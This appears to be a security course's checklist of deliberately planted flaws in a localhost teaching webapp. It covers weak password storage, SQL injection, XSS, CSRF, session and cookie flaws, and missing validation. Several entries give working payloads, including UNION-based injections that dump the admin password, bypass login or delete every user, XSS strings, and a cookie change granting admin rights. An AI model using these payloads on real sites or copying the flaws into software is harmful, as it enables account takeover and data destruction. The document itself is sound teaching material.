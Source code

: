 #Vulnerabilities in the webapp
##Secure password storage


- [ ] The password is not salted to prevent parallell attack and precomputated/rainbow tables.
- [ ] The password is not hashed iteratively with bcrypt/scrypt/PBKDF2.
- [ ] Need better password policy. Short passwords must be disallowed.
- [ ] Password leak in HTML comment on show user page
	- `http://localhost:8080/user/<username>`
- [ ] Password input field should be type=password.


##SQL injections


- [x] Show user 
	`http://localhost:8080/user/-1%27%20union%20all%20select%201,pass,3,4,5,6,%207%20from%20users%20where%20user=%27admin%27--%20-`
- [x] Bypass login form http://localhost:8080/login</p>
	`curl -v localhost:8080/login --data "pass=pwned&amp;user=foobar' UNION ALL SELECT -1,-1,'5e93de3efa544e85dcd6311732d28f95',-1,-1,-1,-1-- -"`
- [x] Admin user delete. Drop all users with
		`http://localhost:8080/admin/delete/foobar' or 1=1-- -`
- [x] Adding a movie review.
- [x] Edit user form.


##XSS

- [x] Reflected on, show user 
	`http://localhost:8080/user/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`
(latest chromium's XSS auditor actually blocks this)
- [x] Reflected on logout message
	- `http://localhost:8080/?msg=aa%3Cscript%3Ealert%287%29%3C/script%3E`
- [x] Reflected on create user form on username field.
- [x] Persistent on show user. Email, bio and age. `http://localhost:8080/user/<username>`
- [x] Reflected on admin delete user page `http://localhost:8080/admin/delete/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`


##CSRF

- [ ] Login form
- [ ] Edit user form
- [ ] Logout link `http://localhost.no:8080/logout`
- [ ] Create user form
- [ ] Delete user `http://localhost:8080/admin/delete/bob`
- [ ] Add movie review `http://localhost:8080/movies/8`

##Authentication mechanisms

- [ ] Session id in cookie is not regenerated after login to prevent session fixation
- [ ] Timing attack on the hash comparison because equals operator is used.
- [ ] Cookie tampering allows normal users to become admin. On http://localhost:8080/admin with
	- `document.cookie='isadmin=yes'`;
- [ ] Missing access control on the actual delete on `http://localhost:8080/admin/delete/<username>`


##Data validation

- [ ] Username can be arbitrarily long.
	- `a=$(php -r 'print str_repeat("A", 1000);')
	curl 'http://localhost:8080/user/new' --data "user=$a&amp;pass=&amp;submit=Create+new+user"`


#General other stuff

- [ ] The webapp should be served entirely over TLS. All requests towards HTTP should redirect to HTTPS. HSTS and secure cookie flag should be on. This requires additional hassle with configuration so students do not have to actually configure TLS. But it should be mentioned.
- [ ] Missing throttling and IP bans on excessive requests towards forms.
- [ ] The Slim debug variable should be set to false to minimize leakage of useful info, (e.g. system paths and technology stack).
